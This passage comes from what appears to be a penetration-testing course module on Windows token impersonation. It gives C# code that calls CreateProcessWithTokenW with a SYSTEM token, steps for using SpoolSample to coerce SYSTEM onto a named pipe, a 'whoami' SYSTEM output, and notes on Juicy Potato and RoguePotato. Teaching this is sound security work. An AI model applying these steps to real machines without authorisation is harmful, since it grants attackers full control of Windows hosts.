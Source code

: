 ```
public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
...
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
STARTUPINFO si = new STARTUPINFO();
si.cb = Marshal.SizeOf(si);
CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0, IntPtr.Zero, null, ref si, out pi);
```

> Listing 43 - Code additions to call CreateProcessWithTokenW

With all the code written, we'll compile and transfer it to the Windows Server 2019 machine. We'll execute this just as before, by first launching our application to create the pipe server with the name "\\.\appsrv01\test\pipe\spoolss".

Next, we'll launch SpoolSample with the capture server set to "\\appsrv01/pipe/test", which will force the SYSTEM account to connect to our named pipe and a new command prompt is opened.

When we interact with it and display the user, we find it to be SYSTEM:

```
C:\Windows\system32> whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ========
nt authority\system S-1-5-18
```

> Listing 44 - System command prompt

With this attack, we can elevate our privileges from an unprivileged account that has the _SeImpersonatePrivilege_ to SYSTEM on any modern Windows system including Windows 2019 and the newest versions of Windows 10. Nice!

A C++ implementation of this attack that has the SpoolSample functionality embedded is available by the researcher who discovered the technique.[39](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-39)

Most native and third-party services that do not require administrative permissions run as Network Service or Local Service, partly due to Microsoft's recommendation. This attack technique means that compromising an unprivileged service is just as valuable as a SYSTEM service.

The technique shown in this section is not the only possible way of leveraging impersonation to obtain SYSTEM integrity. A similar technique that also uses pipes has been discovered by Alex Ionescu and Yarden Shafir.[40](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-40) It impersonates the _RPC system service_ (RpcSs),[41](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-41) which typically contains SYSTEM tokens that can be stolen. Note that this technique only works for _Network Service_.

On older versions of Windows 10 and Windows Server 2016, the Juicy Potato tool obtains SYSTEM integrity through a local man-in-the-middle attack through _COM_.[42](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-42) It is blocked on Windows 10 version 1809 and newer along with Windows Server 2019, which inspired the release of the _RoguePotato_[43](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-43) tool, expanding this technique to provide access to the RpcSs service and subsequently SYSTEM integrity access.
